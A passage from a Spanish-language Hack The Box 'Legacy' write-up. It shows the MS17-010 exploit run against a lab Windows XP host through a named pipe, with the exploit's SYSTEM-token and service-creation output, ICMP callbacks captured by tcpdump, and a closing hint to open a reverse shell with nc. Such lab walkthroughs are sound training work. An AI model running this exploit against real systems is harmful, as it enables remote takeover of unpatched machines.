 Con la modificaciones realizadas, realizamos una prueba de conexion poniendo en escucha una conexion icpm mediante tcpdump. Para lanzar el exploit debemos ejecutar el exploit con el named pipes encontrado.

```java
┌──(root㉿kali)-[/home/…/CTF/HTB/legacy/nmap]
└─# tcpdump -i tun0 icmp -n -v 
tcpdump: listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```
> * **-i.-** Flag para especificar interface.
> * **tun0.-** Nombre la interface que se pone en escucha.
> * **-n.-** Flag que evita resolucion dns.
> * **-v.-** Flag verbose.

Una vez puesto en escucha la comunicacion icmp, ejecutamos el exploit con el named pipes encontrado.

```java                                            
┌──(root㉿kali)-[/home/…/HTB/legacy/exploits/MS17-010]
└─# python2 zzz_exploit.py 10.10.10.4 browser
Target OS: Windows 5.1
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x8613eb18
SESSION: 0xe23a0480
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe1097608
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe10976a8
overwriting token UserAndGroups
Opening SVCManager on 10.10.10.4.....
Creating service AZmL.....
Starting service AZmL.....
SCMR SessionError: code: 0x41d - ERROR_SERVICE_REQUEST_TIMEOUT - The service did not respond to the start or control request in a timely fashion.
Removing service AZmL.....
Done
```
Resultado de la escucha del tcpdump.
```java
┌──(root㉿kali)-[/home/…/CTF/HTB/legacy/nmap]
└─# tcpdump -i tun0 icmp -n    
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
00:04:16.890581 IP 10.10.10.4 > 10.10.16.15: ICMP echo request, id 512, seq 1280, length 40
00:04:16.890815 IP 10.10.16.15 > 10.10.10.4: ICMP echo reply, id 512, seq 1280, length 40
00:04:17.822968 IP 10.10.10.4 > 10.10.16.15: ICMP echo request, id 512, seq 1536, length 40
00:04:17.823039 IP 10.10.16.15 > 10.10.10.4: ICMP echo reply, id 512, seq 1536, length 40
00:04:18.822949 IP 10.10.10.4 > 10.10.16.15: ICMP echo request, id 512, seq 1792, length 40
00:04:18.822990 IP 10.10.16.15 > 10.10.10.4: ICMP echo reply, id 512, seq 1792, length 40
00:04:19.829622 IP 10.10.10.4 > 10.10.16.15: ICMP echo request, id 512, seq 2048, length 40
00:04:19.829990 IP 10.10.16.15 > 10.10.10.4: ICMP echo reply, id 512, seq 2048, length 40
```
Para estabelcer un conexion reverasr podempos utilizar nc del directorio de seclist.
